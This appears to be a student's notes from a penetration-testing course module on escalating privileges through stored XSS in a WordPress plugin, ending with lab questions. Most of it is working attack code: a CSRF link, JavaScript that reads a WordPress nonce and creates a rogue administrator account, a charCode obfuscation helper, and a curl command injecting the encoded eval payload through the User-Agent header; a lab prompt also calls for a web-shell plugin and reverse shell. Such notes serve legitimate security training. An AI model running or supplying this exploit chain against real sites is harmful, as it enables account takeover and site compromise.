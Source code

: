 # Privilege Escalation via XSS

CSRF example attack
>``` shell
><a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
>```

Gathering WordPress Nonce
>``` shell
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>```

Creating a New WordPress Administrator Account
>``` shell
>var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>```

Minifying the XSS attack code
>``` shell
>Minify attack code into a one-liner: JS Compress (https://jscompress.com/).
>```

JS Encoding JS Function
>``` shell
>function encode_to_javascript(string) {
>            var input = string
>            var output = '';
>            for(pos = 0; pos < input.length; pos++) {
>                output += input.charCodeAt(pos);
>                if(pos != (input.length - 1)) {
>                    output += ",";
>                }
>            }
>            return output;
>        }
>        
>let encoded = encode_to_javascript('insert_minified_javascript')
>console.log(encoded)
>```

Launching the Final XSS Attack through Curl
>``` shell
>kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
>```

Lab 1 - Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin. Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
>``` shell
>
>```
>X-Forwarded-For

Lab 2 - Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it? Submit the answer as the method name only, or methodName().
>``` shell
>
>```
>

Lab 3 - Capstone Lab: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
>``` shell
>
>```
>
